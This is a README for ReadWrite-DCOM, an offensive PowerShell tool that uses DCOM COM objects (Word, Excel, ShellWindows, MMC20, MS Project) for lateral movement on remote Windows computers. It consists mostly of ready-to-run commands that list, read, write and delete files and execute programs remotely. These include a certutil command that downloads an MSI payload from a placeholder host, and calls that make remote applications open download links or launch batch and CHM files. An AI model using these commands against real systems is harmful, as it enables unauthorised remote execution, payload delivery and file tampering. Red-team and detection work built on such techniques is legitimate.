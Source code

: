 ## ReadWrite-DCOM

Several lateral movement techniques using DCOM were discovered in the past.  Most of the existing techniques focus on executing commands or VBScript.

ReadWrite-DCOM introduce a couple more use cases by leveraging DCOM. For example, ones can read/write files via Word/Excel COM object, and list directory via ShellWindows COM object on remote computer.

## Read

List a directory on target computer

```powershell
PS> Invoke-ReadWriteDCOM -Action List -ComputerName 127.0.0.1 -TargetPath C:\Temp
```

Read a text file on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Read -ComputerName 127.0.0.1 -TargetPath C:\Temp\comsetup.log
```



## Write 

Write a text file on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Write -ComputerName 127.0.0.1 -TargetPath C:\Temp\run.bat -Text "cmd.exe /c calc"
PS> Invoke-ReadWriteDCOM -Action Write -ComputerName 127.0.0.1 -TargetPath C:\Temp\target.txt -LocalFile C:\Users\Public\myfile.txt -AppendFileEnd
```

Delete a file on target computer i.e, move a file to recycle bin

```	powershell
PS> Invoke-ReadWriteDCOM -Action Delete -ComputerName 127.0.0.1 -TargetPath C:\Temp\comsetup.log
```



## Execute

Execute a program on target computer 

```powershell
PS> Invoke-ReadWriteDCOM -Action Exec -Method ShellBrowserWindow -ComputerName 127.0.0.1 -TargetPath C:\Windows\System32\certutil.exe -Args "-urlcache -f `"https://X.X.X.X/in.msi`" C:\temp\in.msi"
```

Three methods were implemented:

- ShellExecute from ShellBrowserWindow - by Matt Nelson
- InvokeVerbEx from ShellWindows
- ExecuteShellCommand  from MMC20.Application - by Matt Nelson

Remark: The second and third method would pop-up a prompt on target computer


## References

* https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
* https://www.cybereason.com/blog/dcom-lateral-movement-techniques


## MISC

Open a URL link from various application

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("Word.Document", "127.0.0.1")).FollowHyperlink("https://XXX/download")
PS> [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "127.0.0.1")).Document.application.Open("https://XXX/download")
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("InternetExplorer.Application","127.0.0.1")).Navigate("https://XXX/download")
```

Execute Compiled HTML Help file

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "127.0.0.1")).Help("C:\temp\run.chm")
```

Execute file with MS Project

```powershell
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("MSProject.Application", "127.0.0.1")).OpenBrowser("file:///C:/Windows/System32/calc.exe")
PS> [activator]::CreateInstance([type]::GetTypeFromProgID("MSProject.Application", "127.0.0.1")).FollowHyperlink("file:///C:/temp/run.bat")
```

